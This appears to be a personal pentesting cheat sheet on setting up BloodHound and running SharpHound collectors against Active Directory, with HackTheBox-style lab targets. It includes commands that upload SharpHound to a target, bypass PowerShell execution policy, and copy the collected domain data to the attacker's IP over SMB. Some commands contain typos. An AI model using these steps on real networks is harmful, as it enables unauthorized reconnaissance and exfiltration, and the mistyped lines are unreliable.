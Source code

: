 # Installation 

```bash
sudo apt install bloodhound

neo4j console
# open link
http://localhost:7474
#default creds
neoj4:neoj4
# set new password
# run bloodhound

```

# Prebuilt queries
Mark owned users as owned inside bloodhound 
![[Pasted image 20221226133410.png]]

```
shortest paths to domain admins from owned principals 
```

# Injestor 


## remote bloodhound
```
bloodhound --dns-tcp -ns 10.10.10.10 -d support.htb -u 'ldap' -p 'password' -c all

-ns # ip
-d # domain
-u # user
-p # password
```

## SharpHound 

[SharpCollection_repo](https://github.com/Flangvik/SharpCollection)

**Use latest NetFramework_ANY**

```powershell
# Upload sharphound to the target

.\SharpHound.exe -c all 
# start smbserver and send the file 
copy FILE.zip \\10.10.10.10\share\ # send .zip file to attackers ip 
```

### Invoke-bloodhound
```bash
# dfault path
/usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
```
```powershell
powersehll -eq bypass
. .\SharpHoundps1
Invoke-bloodhound -Collectionmethod All -Domain marvel.local -ZipFileName file.zip

```

---
Tags: #AD #bloodhound #sharphound